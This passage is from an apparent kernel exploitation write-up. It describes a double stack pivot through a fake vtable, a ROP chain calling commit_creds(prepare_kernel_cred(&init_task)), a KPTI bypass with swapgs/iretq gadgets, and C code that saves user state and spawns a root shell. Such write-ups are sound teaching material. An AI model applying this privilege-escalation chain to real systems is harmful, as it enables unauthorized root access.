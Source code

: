After pivoting stack to `+0x00`, the program will read the next ROP gadget from `+0x00`, and continue sequentially from
there. We don't have a lot of space on this new stack, because at `+0x10`, the pointer to our vtable is still there, and
at `+0x39`, we put the gadget called in `jmp qword ptr [rsi + 0x39]`, and we must remember not to overwrite these while
writing our final ROP chain. The best solution to avoid conflict with these pointers is to pivot once more, now to
somewhere further down the stack where we have more space. Luckily, we should have enough space to do this, and we'll do
the stack pivot at `+0x18`. To get past `+0x10`, we can do a small trick: just `pop rdi`!

So our first stack will look like this:

```
+0x00: ret ;
+0x08: pop rdi ; ret ;
+0x10: <fake vtable>
+0x18: pop rsp ; ret ;
+0x20: <pipe_buf + 0x50>
```

Now our second stack will point to `+0x50`. Here we have lots of space, so let's start our final ROP chain!

### Final ROP chain

We want to finally call this:

```c
commit_creds(prepare_kernel_cred(&init_task));
```

Due to recent changes in kernel, it's no longer `prepare_kernel_cred(0)` as seen in older writeups.

Then because of KPTI, we need to jump to our shell function safely. In this version of kernel, the usual gadget
`swapgs_restore_regs_and_return_to_usermode+22` is slightly different, so I can't really use it. So we need `swapgs ;
ret` and `iretq ; ret` gadgets. ROPgadget couldn't locate these, but I used `objdump -d vmlinux` to find them. 

Also, I don't actually know how to return properly to userland from `iretq` cos I keep getting SIGSEGV (after
successfully pivoting back to userland). But another way is simply to register a SIGSEGV handler in our program and set
it to `get_shell`.

One more part: we need to actually save the state of the program even before doing our ROP, so at the start of the
exploit we add this (and also define our `get_shell` function):

```c
void save_state() {
  __asm__(
      ".intel_syntax noprefix;"
      "mov user_cs, cs;"
      "mov user_ss, ss;"
      "mov user_sp, rsp;"
      "pushf;"
      "pop user_rflags;"
      ".att_syntax;"
  );
}
save_state();

void get_shell() {
  if (getuid() == 0) {
    system("/bin/sh");
```